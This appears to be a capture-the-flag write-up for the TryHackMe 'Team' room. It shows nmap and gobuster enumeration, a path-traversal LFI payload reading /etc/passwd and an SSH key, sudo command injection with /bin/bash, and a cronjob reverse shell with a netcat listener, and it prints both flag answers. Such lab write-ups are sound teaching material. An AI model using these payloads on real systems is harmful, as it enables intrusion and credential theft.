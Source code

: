 # Team

* IP = 10.10.233.233

## Questions/Tasks:

* Starting with basic Nmap scan to find all open ports on the server:<br>
`nmap -sC -sV -v $IP`

* Nmap Scan Results:
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 79:5f:11:6a:85:c2:08:24:30:6c:d4:88:74:1b:79:4d (RSA)
|   256 af:7e:3f:7e:b4:86:58:83:f1:f6:a2:54:a6:9b:ba:ad (ECDSA)
|_  256 26:25:b0:7b:dc:3f:b2:94:37:12:5d:cd:06:98:c7:9f (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works! If you see this add \'te...
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

* Since port 80 is open, search for any other directories with gobuster:<br>
`gobuster -u "http://IP/" -w common.txt`

* GoBuster Scan Results:
```bash
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/index.html (Status: 200)
/server-status (Status: 403)
```
* FTP is open with no anonymous login permit😮‍💨.
* The webpage when opened in browser shows the *Apache Default page*:<br>
![Screenshot](./assets/2.png)
* Checking the source of the page, we find this line:<br>
![Screenshot](./assets/1.png)
* Edit the `/etc/hosts` file in your machine and add the line:<br>
```
10.10.233.233 team.thm
```
* Now visiting http://team.thm, we're brought to this page:<br>
![Screenshot](./assets/3.png)
* Start a second gobuster scan on http://team.thm :
* Second Scan results:
```bash
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/assets (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
/robots.txt (Status: 200)
/scripts (Status: 301)
/server-status (Status: 403)
```
* Inside *robots.txt* there's only one word: `dale`, maybe its an username.🤔🤔
* I was completely stuck at this stage, but seeing the hint I figured we need to add `dev.team.thm` to the same line in `/etc/hosts`: `10.10.233.233   dev.team.thm team.thm`
* Opening http://dev.team.thm in browser, we are brought here:<br>
![Screenshot](./assets/4.png)
* Following the hint, I supposed that it might be a Local file inclusion vulnerability, hence tried this payload:<br>
`http://dev.team.thm/script.php?page=./../../../etc/passwd`, since the main webpage remains in `/var/www/html/`, hence we need to traverse 3 times to get into root of filesystem.
![Screenshot](./assets/5.png)
* Thus we can confirm that the page has indeed LFI.
* Similarly we tried this out: `http://dev.team.thm/script.php?page=./../../../home/dale/user.txt`.
* And just like that we got the user flag!!🤗


1. user.txt

**Ans-THM{6Y0TXHz7c2d}**


* Now we need to find a way to get a shell in order to become root!!🫡
* Burp Suite made the job easy and found the list for us:<br>
![Screenshot](./assets/burp.png)
* Hence we visited: `http://dev.team.thm/script.php?page=./../../../etc/ssh/sshd_config` and got a ssh private key for `Dale`:<br>
![Screenshot](./assets/6.png)
* Copy the RSA Private Key to local machine, change permissions with `chmod 600 id_rsa`, then ssh into server with:
`ssh -i id_rsa dale@IP`<br>
![Screenshot](./assets/7.png)
* `sudo -l` gives the following output:<br>
![Screenshot](./assets/8.png)
* So, probably we need to escalate privileges to `Gyles` then to root.
* Carefully look at the **admin_checks** script, the error variable is directly executed in the script itself...so we can supply `/bin/bash` and become *gyles*
* Now run the script with `sudo` and supply `/bin/bash` when prompted for date:<br>
![Screenshot](./assets/9_1.png)
* Thus we can get a barebone shell, and we can elevate the shell with:`python3 -c 'import pty; pty.spawn("/bin/bash")'`
* The `.bash_history` of gyles has a strange file in /usr/local/bin:<br>
![Screenshot](./assets/10.png)
* The `admin` group in which gyles is a member has write, read and execute permissions:<br>
![Screenshot](./assets/11.png)<br>
* Edit the file like this:<br>
![Screenshot](./assets/12.png)
* In order to get a reverse shell with root privileges. (The above code snippet was taken from <a href="https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet">Pentestmonkey RevShell Cheat Sheet</a>)
* Set up a netcat listener on local machine with: `nc -lnvp 4444`
* The file will be automatically run by root as it is a *cronjob*.
* Thus we get a root shell connection back:<br>
![Screenshot](./assets/13.png)
* Find the root.txt there itself...

2. root.txt

**Ans-THM{fhqbznavfonq}**
